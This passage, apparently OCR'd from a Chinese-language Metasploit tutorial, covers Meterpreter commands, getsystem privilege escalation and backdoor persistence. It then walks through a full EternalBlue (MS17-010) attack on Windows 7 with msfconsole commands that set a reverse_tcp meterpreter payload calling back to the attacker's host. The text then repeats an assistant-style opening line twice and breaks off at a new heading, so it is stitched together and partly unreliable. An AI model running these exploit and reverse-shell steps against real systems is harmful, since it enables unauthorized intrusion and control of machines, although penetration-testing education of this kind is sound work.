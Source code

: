 5.1 Meterpreter基本命令
sysinfo：查看系统信息。

getuid：查看当前用户。

shell：进入命令行 shell。

upload / download：上传/下载文件。

5.2 权限提升
使用getsystem命令尝试提权。

5.3 持久化
使用persistence模块在目标上安装后门。

6. 报告
使用notes命令添加注释，使用db_export导出数据。

7. 实例：攻击Windows 7（EternalBlue）
假设目标IP为192.168.1.100，攻击者IP为192.168.1.50。

启动msfconsole。

搜索EternalBlue模块：

msf
search eternalblue
使用该模块并设置目标：

msf
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
设置Payload和监听IP与端口：

msf
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
执行攻击：

msf
exploit
成功后，你将会得到一个Meterpreter会话。可以执行后渗透命令。

8. 总结
这只是一个简单的入门教程。Metasploit功能非常强大，建议在合法的环境中多加练习，并参考官方文档和高级教程。

注意：务必在授权的情况下进行测试。

好的，这是一份从零开始的 Metasploit 详细实战教程。我们将通过一个完整的、在虚拟机环境中模拟的渗透测试过程，来学习 Metasploit 的核心用法。

好的，这是一份从零开始的 Metasploit **详细实战教程**。我们将通过一个完整的、在虚拟机环境中模拟的渗透测试过程，来学习 Metasploit 的核心用法。

---

### **Metasploit 详细实战教程**

#### **第一步：环境准备与基本概念**
